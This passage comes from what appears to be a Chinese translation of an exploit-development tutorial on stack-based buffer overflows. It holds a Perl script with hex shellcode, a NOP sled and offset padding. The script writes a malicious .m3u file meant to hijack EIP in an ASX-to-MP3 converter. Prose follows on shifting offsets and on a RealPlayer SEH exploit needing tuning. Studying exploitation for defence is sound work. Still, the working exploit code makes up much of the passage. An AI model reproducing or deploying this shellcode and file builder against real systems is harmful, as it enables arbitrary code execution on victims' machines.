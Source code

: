     "\xe0\x18\xe8\x27\xf5\xba\x7b\x9f\xdd\x3b\xaf\x46\x95\x37" .
    "\x04\x0c\xf1\x5b\x9b\xc1\x89\x67\x10\xe4\x5d\xee\x62\xc3" .
    "\x79\xab\x31\x6a\xdb\x11\x97\x93\x3b\xfd\x48\x36\x37\xef" .
    "\x9d\x40\x1a\x65\x63\xc0\x20\xc0\x63\xda\x2a\x62\x0c\xeb" .
    "\xa1\xed\x4b\xf4\x63\x4a\xa3\xbe\x2e\xfa\x2c\x67\xbb\xbf" .
    "\x30\x98\x11\x83\x4c\x1b\x90\x7b\xab\x03\xd1\x7e\xf7\x83" .
    "\x09\xf2\x68\x66\x2e\xa1\x89\xa3\x4d\x24\x1a\x2f\xbc\xc3" .
    "\x9a\xca\xc0";
     
    my $sploit = $offset.$nops.$shell; 
    my $fill = "\x43" x ($buffsize - (length($sploit))); # fill remainder
    my $buffer = $sploit.$fill; # build final buffer 
     
    # write the exploit buffer to file
    my $file = "asx2mp3.m3u";
    open(FILE, ">$file");
    print FILE $buffer;
    close(FILE);
    print "Exploit file created [" . $file . "]\n";
    print "Buffer size: " . length($buffer) . "\n"; 

如果您想要显示缓冲区的外观，请在文本编辑器中打开生成的m3u文件，您应该看到下面的偏移量：

![](../Images/WED/3.11.png)

即使这个更新的漏洞利用也不完美，因为我们使用了一个用于EIP覆盖的OS DLL以及有限数量的漏洞利用触发位置，但它肯定比我们第2部分的原始版本有所改进。 

除了改变受文件路径影响的偏移量之外，遇到具有由启动方式决定的多个偏移量的漏洞并不罕见。以最近发布的针对RealPlayer 16.0.3.51/16.0.2.32的漏洞为例它包含两个偏移量/ EIP覆盖 -

一个用于直接启动漏洞利用率.rmp文件，

一个用于在应用程序内打开漏洞。

如果漏洞代码本身看起来有些不同，那是因为它是一个基于SEH的缓冲区溢出，我们将在更多的帖子中讨论这个话题。现在，如果您选择在测试机器上尝试利用漏洞，则可能需要根据您的操作系统进行一些调整。如果您运行的是Windows XP SP3，则可能需要将$ junk2偏移量调整为10515，并根据您拥有的RealPlayer版本，您可能需要切换SEH值。 

虽然这些只是一些本地执行的具有更改/多种偏移的攻击的示例，但它们应该提供一些有关此问题在创建漏洞时如何表现出来的信息，以及如何解决该问题。

## 结论

在过去的两篇文章中，我们构建了一个非常基础的基于栈的缓冲区溢出攻击，并克服了由于漏洞利用文件路径的影响而改变EIP偏移量，并改变了由重定位应用程序DLL导致的模块寻址所带来的一些小问题。在下一篇文章中，我们将看看如何在不能使用简单的CALL / JMP指令到达shellcode的情况下使用跳转代码。